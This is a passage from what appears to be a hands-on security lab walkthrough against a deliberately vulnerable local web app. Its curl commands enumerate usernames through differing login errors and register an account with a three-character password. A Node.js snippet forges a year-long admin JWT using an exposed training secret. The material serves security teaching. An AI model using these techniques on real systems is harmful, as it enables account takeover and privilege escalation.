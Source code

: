#### Step 4: Username Enumeration

```bash
# Test if different error messages reveal valid usernames
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"wrongpass"}'

# vs

curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"nonexistentuser","password":"wrongpass"}'
```

If responses differ, you can enumerate valid usernames!

#### Step 5: Weak Password Testing

```bash
# Register account with weak password
curl -X POST http://localhost:3000/api/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "weakuser",
    "password": "123",
    "email": "weak@test.com"
  }'
```

**Response:**
```json
{
  "success": true,
  "message": "User registered successfully"
}
```

✅ **3-character password accepted - no password policy!**

#### Step 6: Session Hijacking

```bash
# If JWT secret is exposed (A05), forge tokens
const jwt = require('jsonwebtoken');

// Using exposed secret from /.env
const secret = 'jwt_secret_key_for_training';

// Create admin token
const adminToken = jwt.sign(
  {
    userId: 1,
    username: 'admin',
    role: 'admin'
  },
  secret,
  { expiresIn: '365d' } // Long expiration
);

console.log('Forged admin token:', adminToken);
```
